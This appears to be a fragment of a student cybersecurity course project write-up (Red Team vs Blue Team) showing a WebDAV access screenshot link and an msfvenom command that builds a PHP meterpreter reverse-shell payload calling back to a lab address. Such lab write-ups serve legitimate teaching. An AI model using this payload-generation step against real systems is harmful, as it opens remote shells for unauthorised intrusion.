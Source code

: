 ![WebDAV access ss](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/10WebDav(access).png)

		- Creating a reverse shell with msfvenom to remotely execute

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >>~/Desktop/shell.php`
  
